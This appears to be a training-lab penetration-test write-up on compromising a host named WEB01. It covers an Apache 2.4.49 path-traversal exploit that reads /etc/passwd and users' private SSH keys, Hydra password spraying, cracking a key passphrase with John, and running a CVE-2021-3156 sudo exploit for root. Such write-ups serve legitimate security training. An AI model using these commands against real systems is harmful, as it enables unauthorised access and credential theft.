







---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# WEB01

## Enumeration

This host is located at `192.168.X.245`:

```
Nmap scan report for 192.168.200.245 (WEB01)
Host is up (0.052s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE    SERVICE    VERSION
21/tcp    open     ftp        vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.154
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open     http       Apache httpd 2.4.49 ((Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: RELIA Corp.
|_http-server-header: Apache/2.4.49 (Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8
406/tcp   filtered imsp
443/tcp   open     ssl/http   Apache httpd 2.4.49 ((Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8)
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: RELIA Corp.
|_http-server-header: Apache/2.4.49 (Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8
| ssl-cert: Subject: commonName=web01.relia.com/organizationName=RELIA/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2022-10-12T08:55:44
|_Not valid after:  2032-10-09T08:55:44
|_ssl-date: TLS randomness does not represent time
1285/tcp  filtered neoiface
2165/tcp  filtered x-bone-api
2222/tcp  open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 30:0c:6c:9b:ac:07:47:5e:df:6d:ff:38:63:38:2a:fd (RSA)
|   256 f3:a9:70:76:c8:d4:c4:17:f4:39:1f:be:58:9d:1f:a5 (ECDSA)
|_  256 21:a0:79:82:2d:e6:2a:76:11:24:2f:7e:2e:a8:c7:83 (ED25519)
5166/tcp  filtered winpcs
8000/tcp  open     http       Apache httpd 2.4.49 ((Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8)
|_http-server-header: Apache/2.4.49 (Unix) OpenSSL/1.1.1f mod_wsgi/4.9.4 Python/3.8
|_http-title: Site doesn't have a title (text/html).
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Potentially risky methods: TRACE
13453/tcp filtered unknown
13935/tcp filtered unknown
14585/tcp filtered unknown
19055/tcp filtered unknown
28146/tcp filtered unknown
29577/tcp filtered unknown
29768/tcp filtered unknown
31750/tcp filtered unknown
34601/tcp filtered unknown
35484/tcp filtered unknown
36766/tcp filtered unknown
38704/tcp filtered unknown
39513/tcp filtered unknown
40958/tcp filtered unknown
44226/tcp filtered unknown
50239/tcp filtered unknown
52611/tcp filtered unknown
55626/tcp filtered unknown
60169/tcp filtered unknown
63367/tcp filtered unknown
64160/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/28%OT=21%CT=1%CU=31548%PV=Y%DS=4%DC=T%G=Y%TM=66A6
OS:9EC1%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10C%TI=Z%II=I%TS=A)SEQ(S
OS:P=FF%GCD=1%ISR=10C%TI=Z%II=I%TS=A)SEQ(SP=FF%GCD=2%ISR=10C%TI=Z%II=I%TS=A
OS:)OPS(O1=M551ST11NW7%O2=M551ST11NW7%O3=M551NNT11NW7%O4=M551ST11NW7%O5=M55
OS:1ST11NW7%O6=M551ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88
OS:)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M551NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=
OS:G%RUCK=A13A%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

### Anonymous FTP

I see from the scan that anonymous FTP login is allowed:

<figure><figcaption><p>Anonymous FTP</p></figcaption></figure>

Unfortunately it seems there are no files there and I am not allowed to write anything there.

### Web Server (80 & 443)

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


It seems like the site on HTTPS is supposed to be the same as the one on port 80 but it loads so slowly I honestly cannot verify that.

#### Path Traversal

I find the machine is vulnerable to the Apache 2.4.49 [path traversal exploit](https://www.exploit-db.com/exploits/50383) but not the RCE component:

<figure><figcaption><p>Leaking /etc/passwd</p></figcaption></figure>

I see several usernames: `miranda`, `steven`, `mark`, `anita`, `offsec`. I try leaking an `id_rsa` from each of their `~/.ssh` directories but they all 404ed. It does help confirm the naming convention for users since the Meet The Team page revealed there were employees named Miranda, Steven, and Mark (there was also a Peter but he is not seen in the `passwd` file).

I can now begin constructing my `users.txt` file:


```
miranda
steven
mark
anita
offsec
peter

```


There is no guarantee these are right but it's the best guess I have right now.

#### SSH Keys Take 2

_This was written after completing the rest of the enumeration_.

It turns out I was on the right track trying to leak an SSH key for one of the user's: `miranda`, `steven`, `mark`, `anita`, or `offsec`. Where I went wrong was only thinking an SSH key would be called `id_rsa`. It turns out there are actually [multiple default names](https://askubuntu.com/a/30792) that can be used:

* `id_rsa`
* `id_ecdsa`
* `id_ecdsa_sk`
* `id_ed25519`
* `id_ed25519_sk`
* `id_dsa`

My plan is to basically continue using the command below while rotating the home directory path for each user. I will then attempt with each different possible key name:

```
50383.sh targets.txt /home/miranda/.ssh/id_rsa
```

I mock up all of the commands in a `.txt` file (skipping `id_rsa` since I tried that earlier):

```
./50383.sh targets.txt /home/miranda/.ssh/id_ecdsa
./50383.sh targets.txt /home/steven/.ssh/id_ecdsa
./50383.sh targets.txt /home/mark/.ssh/id_ecdsa
./50383.sh targets.txt /home/anita/.ssh/id_ecdsa
./50383.sh targets.txt /home/offsec/.ssh/id_ecdsa


./50383.sh targets.txt /home/miranda/.ssh/id_ecdsa_sk
./50383.sh targets.txt /home/steven/.ssh/id_ecdsa_sk
./50383.sh targets.txt /home/mark/.ssh/id_ecdsa_sk
./50383.sh targets.txt /home/anita/.ssh/id_ecdsa_sk
./50383.sh targets.txt /home/offsec/.ssh/id_ecdsa_sk


./50383.sh targets.txt /home/miranda/.ssh/id_ed25519
./50383.sh targets.txt /home/steven/.ssh/id_ed25519
./50383.sh targets.txt /home/mark/.ssh/id_ed25519
./50383.sh targets.txt /home/anita/.ssh/id_ed25519
./50383.sh targets.txt /home/offsec/.ssh/id_ed25519


./50383.sh targets.txt /home/miranda/.ssh/id_ed25519_sk
./50383.sh targets.txt /home/steven/.ssh/id_ed25519_sk
./50383.sh targets.txt /home/mark/.ssh/id_ed25519_sk
./50383.sh targets.txt /home/anita/.ssh/id_ed25519_sk
./50383.sh targets.txt /home/offsec/.ssh/id_ed25519_sk


./50383.sh targets.txt /home/miranda/.ssh/id_dsa
./50383.sh targets.txt /home/steven/.ssh/id_dsa
./50383.sh targets.txt /home/mark/.ssh/id_dsa
./50383.sh targets.txt /home/anita/.ssh/id_dsa
./50383.sh targets.txt /home/offsec/.ssh/id_dsa
```

I start working my way through them and get lucky quickly:

<figure><figcaption><p>Leaked SSH key</p></figcaption></figure>

I save the file as `id_ecdsa` and set the file permissions to 600. It is now time to see what I have access to.

Unfortunately I could not use it to gain access to either externally-available SSH machine (`WEB01`, `WEB02`).

I will hold on to it for later.

### Web Server (8000)

This page is just a page called "Development" with a login screen. I again try a few combinations but no luck:

<figure><figcaption></figcaption></figure>

The login is just a JSON payload being sent over HTTP:

<figure><figcaption></figcaption></figure>

#### Hydra Login Form

To be sure I use Hydra to [spray this login form](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms) with the users I have discovered and rockyou.txt:


```bash
hydra -L ./lists/users.txt -P /usr/share/wordlists/rockyou.txt -s 8000 web01.relia.com http-post-form "/login:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:H=Content-Type: application/json;charset=UTF-8:Data error"
```


This is going to take forever though so I don't think this is it. I do decide to quit that check and run the list against FTP. The credentials may be the same and maybe I could also put some credential leaker on the FTP site if I get access:


```bash
hydra -L ./lists/users.txt" -P /usr/share/wordlists/rockyou.txt ftp://web01.relia.com
```


* This is actually even slower so I do not think this is it either

Moving on to other machines for now.

### Cracking Leaked SSH Key Password

I eventually decide to try cracking the SSH key's passphrase because I see no other way forward. I start by converting the key file to a John-crackable file:

```bash
ssh2john anita_id_ecdsa > anita_id_ecdsa.hash
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt anita_id_ecdsa.hash > anita.cracked
```

<figure><figcaption><p>Cracking the password</p></figcaption></figure>

Honestly this feels like a bad-faith item because when you start the cracker it states it will take up to 1 week to crack. That made me shut it down the first time. It turns out the password was at the top of `rockyou.txt` but WTF?

I can now login with the key to the [`DEMO`](demo.md) machine:

<figure><figcaption><p>User access</p></figcaption></figure>

## Privilege Escalation

### CVE-2021-3156

[This exploit](https://github.com/worawit/CVE-2021-3156) can be used to gain root. The `exploit_nss.py` is the only one needed. Simply download and run:

```bash
python3 exploit_nss.py
```

`root` access achieved.
